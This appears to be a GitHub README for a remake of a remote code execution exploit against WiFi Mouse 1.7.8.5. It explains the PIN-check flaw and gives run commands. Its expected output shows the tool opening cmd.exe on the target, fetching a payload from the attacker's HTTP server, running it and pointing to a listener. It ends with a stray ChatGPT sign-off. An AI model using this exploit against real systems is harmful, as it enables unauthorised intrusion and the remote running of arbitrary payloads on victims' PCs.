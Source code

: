 # WiFi Mouse 1.7.8.5 Remote Code Execution Exploit (Remake)

This script is an exploit for **WiFi Mouse 1.7.8.5** that allows an attacker to execute arbitrary commands on the target system remotely. The exploit works by exploiting a vulnerability in the desktop server software used by the mobile app, which doesn't properly validate input commands.

## Description

The **WiFi Mouse** app (version 1.7.8.5) allows users to control their PC via a mobile device. However, the desktop server software does not fully protect against unauthorized remote command execution. This vulnerability allows an attacker to send crafted packets to the target system, which results in remote code execution.

This script exploits this vulnerability to execute arbitrary commands and download a payload from a remote server.

## Exploit Details

The vulnerability exists in the PIN verification process, which fails to prevent unauthorized command execution. The target responds with a `needpassword` message, which is only handled by the mobile app and does not block the execution of commands.

## Requirements

- **Python 3.x** (Tested on Python 3.7+)
- **target IP or domain**
- **Local HTTP server running with the payload**

## Usage

### Prerequisites:

1. **Install Python 3.x** if not already installed.
2. **Run a local HTTP server** to host your payload.
3. **Prepare your payload** that will be executed on the target machine.

### Running the Script:

```bash
python exploit_script.py <target-ip/domain> <local-http-server-ip> <payload-name>

```

**Parameters**:

- `<target-ip/domain>`: The IP address or domain of the target machine.
- `<local-http-server-ip>`: Your local machine's IP address, where the payload is hosted.
- `<payload-name>`: The name of the payload file to be executed on the target.

### Example:

```bash
python exploit_script.py hermes.local.exam 192.168.1.100 payload.exe

```

This command will:

- Resolve the domain `hermes.local` to its corresponding IP.
- Connect to the target on port `1978`.
- Download the payload (`payload.exe`) from your local HTTP server at `192.168.1.100`.

### Script Output:

Once the script is executed, it will:

- Open the `cmd.exe` on the target system.
- Deliver the payload.
- Execute the payload from the `C:\Windows\Temp\` directory.

### Expected Output:

```bash
Resolving Target IP for hermes.local...
Resolved Target IP: 192.168.1.10, Port: 1978
[+] Connecting to target...
[+] Starting exploit in 3...2...1...
[+] Opening cmd.exe...
[+] Delivering payload to target...
[+] Executing payload from Temp folder...
[+] Exploit complete! Check your listener.
[+] Connection closed.

```

## References

- [Exploit-DB: 49601](https://www.exploit-db.com/exploits/49601)

## Disclaimer

This script is intended for educational purposes and to demonstrate the vulnerability in the WiFi Mouse software. Use it responsibly and only on systems where you have explicit permission to perform penetration testing.

---

Once you log in to ChatGPT, I can help you generate and manage this content more efficiently, including converting it into a proper `README.md` file for you.